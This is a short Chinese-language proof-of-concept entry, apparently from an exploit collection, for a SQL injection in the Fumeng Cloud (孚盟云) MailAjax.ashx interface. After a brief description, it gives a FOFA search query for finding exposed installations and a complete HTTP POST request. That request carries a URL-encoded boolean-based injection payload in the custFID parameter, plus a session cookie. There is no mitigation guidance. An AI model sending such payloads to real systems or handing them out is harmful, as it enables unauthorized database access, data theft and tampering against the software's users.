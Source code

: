# 孚盟云系统接口MailAjax.ashx存在SQL注入漏洞

孚盟云系统接口MailAjax.ashx存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="孚盟软件-孚盟云"
```

## poc

```javascript
POST /Ajax/MailAjax.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UserCookie={"LicNo":"","lastLoginIp":"","LicSelected":"cloud","ProductID":"M8","loginUser":"00210","userToken":"A39418D1C5EADEFD41E99B71976A531E24EC2C6B9E7D4CD460A406769A97CC9DE2966975679C521F499A8F215B51B65C4D067F57D94D260B6EF4C16094D56562"}
Connection: close
Content-Type: application/x-www-form-urlencoded

action=GetMailContactsCard&custFID=%28SELECT%20CHAR%28113%29%2BCHAR%28107%29%2BCHAR%28118%29%2BCHAR%28122%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%287588%3D7588%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%28106%29%2BCHAR%28107%29%2BCHAR%28113%29%29
```

